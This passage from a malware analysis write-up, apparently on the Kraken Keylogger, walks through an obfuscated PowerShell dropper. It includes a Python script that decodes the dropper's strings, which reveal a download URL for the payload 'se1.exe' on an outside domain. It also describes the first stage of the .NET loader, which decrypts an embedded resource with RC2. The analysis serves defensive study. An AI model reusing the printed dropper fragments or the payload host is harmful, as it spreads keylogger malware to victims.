```PowerShell
    $qNfQDXYlR = $AVYABiApT + 'se1.exe';
    WQgtWbWK $qNfQDXYlR $XdOFJCmMx;
    APcZNMgjQ $qNfQDXYlR;;;;
}

deaNPih;
```

The script has several obfuscated strings that are being deobfuscated using the function `QXUpF` by simply going over each number and substracting `4949` from it. here is a quick script that will deobfuscate those strings and print the clear strings:


```python
stringsList = [[4995,5049,5057,5057],[5063,5066,5059,5049,5057,5057,5000,4999,4995,5050,5069,5050],[5027,5050,5065,4995,5036,5050,5047,5016,5057,5054,5050,5059,5065],[5053,5065,5065,5061,5064,5007,4996,4996,5058,5046,5064,5053,5050,5063,5060,5051,5058,5046,5064,5065,5050,5063,5064,4995,5048,5070,5060,5066,4996,5048,5053,5054,5059,4996,5064,5050,4998,4995,5050,5069,5050]]

for string in stringsList:
    tmp = ''
    for char in string:
        tmp += chr(char - 4949)
    print(f'[+] - {tmp}')
```

    [+] - .dll
    [+] - rundll32.exe
    [+] - Net.WebClient
    [+] - https://masherofmasters.cyou/chin/se1.exe


The script will download another file from the same domain previously used for fetching the `.hta` file in the previous powershell script.
# .NET Loader
## Stage 1
the fetched executable (`se1.exe`) is a .NET executable:

![image.png](/assets/images/Kraken-Keylogger-pt1/4.png)

the loader will decrypt embedded resource `DataBasePracticalJob` using the encryption algorithim `RC2`, the key for the encryption will be the MD5 hash value of the hardcoded string `QEssDJZhQnLywDnJGpBEr` (The interesting part here is that the hashing applied on the string after encoding it with `BigEndianUnicode`, `0x00` appends as a suffix to each byte.) Here is a diagram of the decryption process:
